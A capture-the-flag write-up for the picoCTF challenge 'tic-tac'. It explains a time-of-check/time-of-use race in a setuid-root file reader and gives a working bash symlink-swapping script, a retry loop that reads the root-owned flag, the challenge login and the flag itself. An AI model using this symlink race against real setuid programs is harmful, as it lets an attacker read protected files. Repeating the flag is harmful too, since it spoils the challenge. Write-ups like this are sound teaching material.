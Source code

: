 # tic-tac : Binary Exploitation

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it. `ssh` to `saturn.picoctf.net:60006`, and run the binary named "txtreader" once connected. Login as `ctf-player` with the password, `d137d16e`

Author : Junias Bonou

# Solution

For now, try connect via SSH.
```
$ ssh -p 60006 ctf-player@saturn.picoctf.net
ctf-player@pico-chall$ ls -al
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Jun  5 17:04 .
drwxr-xr-x 1 root       root          24 Aug  4  2023 ..
drwx------ 2 ctf-player ctf-player    34 Jun  5 17:04 .cache
-rw-r--r-- 1 root       root          67 Aug  4  2023 .profile
-rw------- 1 root       root          32 Aug  4  2023 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4  2023 txtreader
```
The program that reads files is src.cpp, and the executable file is txtreader.
The contents of src.cpp are as follows:
```c src.cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>
int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;
  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  return 0;
```
The file owner and the executor must be the same, so I focus on `statbuf.st_uid != getuid()`.  
It clear that stat() is used to verify whether they are the same. Therefore the file can be swapped between the check and the actual read operation — this is a Time-of-Check to Time-of-Use (TOCTOU) vulnerability.  
The file replacement can be achieved through a symlink attack.  
In order to exploit the timing gap between the check and the file read, a symbolic link to `flag.txt` must be created during that window. By continuously alternating between a symlink to a dummy file and one to `flag.txt`, we probabilistically target the correct timing — this is a race condition.  
Below is the symlink swapping script:
```sh replace.sh
#!/bin/bash
while true;
do
    ln -sf src.cpp symlink.txt
    ln -sf flag.txt symlink.txt
done
```
After giving this script execute permission, run it in the background and simultaneously execute `txtreader`.
```
$ chmod +x replace.sh
$ ./replace.sh &
[1] 39
$ while ! ./txtreader symlink.txt | grep pico ; do :; done
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_f482a247}
```

Get the flag!

`picoCTF{ToctoU_!s_3a5y_f482a247}`
